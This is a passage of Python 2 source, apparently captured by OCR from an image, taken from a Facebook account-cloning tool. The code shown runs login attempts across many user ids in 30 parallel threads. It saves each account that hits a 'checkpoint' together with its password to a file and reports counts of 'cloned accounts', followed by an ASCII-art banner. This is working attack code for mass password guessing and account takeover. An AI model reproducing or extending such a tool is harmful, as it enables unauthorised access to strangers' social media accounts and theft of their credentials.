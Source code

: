                             else:

                               if 'www.facebook.com' in q['error_msg']:

                                   print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass3

                                   cps = open('save/Checkpoint.txt', 'a')

                                   cps.write(k+c+user+pass3+'\n')

                                   cps.close()

                                   cpb.append(c+user+pass3)

                                                                                                                                                                                                                                                                                                                                                                                                        

                                                                                                                                                                                                          

        except:

            pass

        

    p = ThreadPool(30)

    p.map(main, id)

    print 50* '\033[1;91m-'

    print 'Process Has Been Completed ...'

    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))

    print('Cloned Accounts Has Been Saved : save/Checkpoint')

    jalan("Note : Your Checkpoint Accounts Will Open after  7 days")

    print ''

    print """

    \033[1;92m.                                  _____________¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶______________

______¶¶¶¶¶¶¶¶¶___________¶¶¶¶¶¶¶¶¶_______

____¶¶¶¶¶__________¶¶¶¶¶__________¶¶¶¶¶___

____¶¶___________¶¶¶¶¶¶¶¶¶____________¶¶__

____¶¶__________¶¶¶¶¶¶¶¶¶¶¶___________¶¶__

____¶¶______________¶¶¶¶¶¶____________¶¶__

____¶¶_____________¶¶¶¶¶¶¶____________¶¶__

____¶¶______¶¶___¶¶¶¶¶¶¶¶¶____________¶¶__

____¶¶_____¶¶¶¶¶¶¶¶¶¶¶¶¶¶_____¶_¶_____¶¶__

____¶¶_____¶¶¶¶¶¶¶¶¶¶¶________¶¶______¶¶__

____¶¶____¶¶¶¶¶¶¶¶¶¶¶¶¶_______¶¶¶_____¶¶__

____¶¶____¶¶¶__¶¶¶¶¶¶¶¶¶¶¶_____¶¶_____¶¶__

____¶¶______¶¶____¶¶¶¶¶¶¶¶¶____¶¶_____¶¶__
